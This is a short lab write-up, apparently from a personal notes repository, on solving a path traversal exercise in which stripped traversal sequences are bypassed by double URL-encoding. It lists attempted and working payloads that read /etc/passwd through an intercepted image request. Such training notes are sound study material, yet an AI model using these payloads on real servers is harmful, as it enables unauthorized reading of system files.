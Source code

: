 #+title: File path traversal, traversal sequences stripped with superfluous URL-decode

* Table of Contents :toc:
- [[#lab-contains][Lab Contains]]
- [[#end-goal][End Goal]]
- [[#solution][Solution]]
- [[#payload-to-solve-lab][Payload to solve lab]]

* Lab Contains
- vulnerability on display of product images
- block path traversal sequences
- perform URL-decode before using it
* End Goal
- retrieve the contents of ~/etc/passwd~ file
* Solution
- Access the lab
- Open any product image on new tab & intercept the request with burpsuite
- change file name to some basic payload like
  - ~../../../etc/passwd~
    - Not found
  - ~/etc/passwd~
    - Not found
  - ~....//....//....//etc/passwd~
    - Not found
- Now try to encode our payload and try
  - Payload -> ~../../../etc/passwd~
  - Encode -> ~..%2f..%2f..%2fetc/passwd~
    - Still not working, hmm! since it use URL-decode that's why it is not working
    - Encode again: ~..%252f..%252f..%252fetc/passwd~
      - Awala!! retrieved the contents of ~/etc/passwd~
* Payload to solve lab
*Pass traversal sequence double URL-Encoded value*

1. ~../../../etc/passwd~
   1. ~..%2f..%2f..%2fetc/passwd~
      1. ~..%252f..%252f..%252fetc/passwd~
